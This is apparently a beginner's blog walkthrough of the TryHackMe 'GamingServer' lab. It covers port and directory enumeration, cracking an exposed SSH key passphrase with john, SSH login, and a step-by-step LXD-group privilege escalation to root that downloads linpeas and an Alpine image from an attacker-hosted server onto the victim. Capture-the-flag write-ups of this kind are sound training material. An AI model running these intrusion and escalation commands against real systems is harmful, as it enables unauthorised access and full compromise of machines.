







Hello Everyone.

This is my first blog so do correct me if I go wrong anywhere. So in this blog we will go through a tryhackme machine [GamingServer](https://tryhackme.com/room/gamingserver)
So lets get started


<!--truncate-->

# Enumeration

---

## Nmap

-> Our first step will be to find open ports on given ip so that we can gain access to victim machine from any of the open port using tool called [nmap](https://nmap.org)

```bash
└─$ sudo nmap -sSCV 10.10.210.28
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Gobuster

-> Port 80 is open so our next tasj is to find the directories present on this web server

```bash
└─$ gobuster dir -u http://10.10.210.28 -w /usr/share/wordlists/dirb/common.txt -t 30
2>/dev/null

/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 313] [--> http://10.10.210.28/secret/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.210.28/uploads/]
```

---

-> Lets visit every directory one by one
-> So after visiting robot.txt we get that /upload is allowed  
-> After that we have secret so in this directory we get another dir which contains a encrypted idrsa



-> Lets save this in a file called `id_rsa`
-> Then convert it to john format using ssh2john so that tool john can crack the password
-> so first conversion to john format
`command: └─$ ssh2john.py id_rsa > coverted `
-> After converting we can use john to crack the password but for cracking we require wordlists
-> So After visiting `/uploads` we got a list which we can use for john
`└─$ wget http://10.10.210.28/uploads/dict.lst` to import this list to local machine
`Note: After importing the list convert it to .txt as john will not accept .lst file as wordlist`



-> So lets use john to crack the passphrase



-> We've cracked the passphrase. Now our next task is to find the user from which we will login into the machine using ssh

-> After going through source code of homepage we got the user


-> So lets login using ssh
`command: └─$ ssh -i id_rsa john@10.10.210.28`

-> After login lets grab the user flag



## PrivEsc

-> Treid `sudo -l` but as we have not password of john so it wont worked
-> Then we've the find command from which we can find the suid files but there also didnt got anything special and last one is cronjobs `cat /etc/crontab` which will give if any cronjob is not there which is executing a file with root perm repeatedly with a time period of sleep but there also we got nothing

-> Then the last option left is to use linpeas
-> We've to transfer the linpeas from our local machine to victim using python3 server and then wget in the victim machine
-> execute this command from directory where the linpeas is downloaded in your local machine
`command: python3 -m http.server 8181 `
-> Then wget the file in victim machine
`command: wget http://<tun0_ip>:8181/linpeas.sh `

-> In the starting of the linpeas result only we are in lxd group
-> So let find out what we can do with it on google
-> After going through couple of links got the blog of [Hacking Articles](https://www.hackingarticles.in/lxd-privilege-escalation/) and followed the steps mentioned in the blog and we got root!!!

```bash
step:
	On attacker machine
		1) git clone  https://github.com/saghul/lxd-alpine-builder.git
		2) cd lxd-alpine-builder
		3) ./build-alpine
		4) python -m SimpleHTTPServer
	On Victim machine
		1) cd /tmp
		2) wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz
		3) lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
		4) lxc image list
		5) lxc init myimage ignite -c security.privileged=true
		6) lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
		7) lxc start ignite
		8) lxc exec ignite /bin/sh
		9) id
		10) cd /mnt/root/root
		11) cat root.txt
```





---

## Outro

It was a great machine. The User shell was bit easy one but in privesc part learned a new thing about how we can get root if we are in the **lxd** group

Thank you for reading my writeup. I will be constantly uploading blogs on different machines of tryhackme, hackthebox and on anything new I will learn. So follow me for my upcoming blogs and also do visit my [twitter](https://twitter.com/ky10100) profile for any upcoming updates. Till then stay safe stay healthy :)
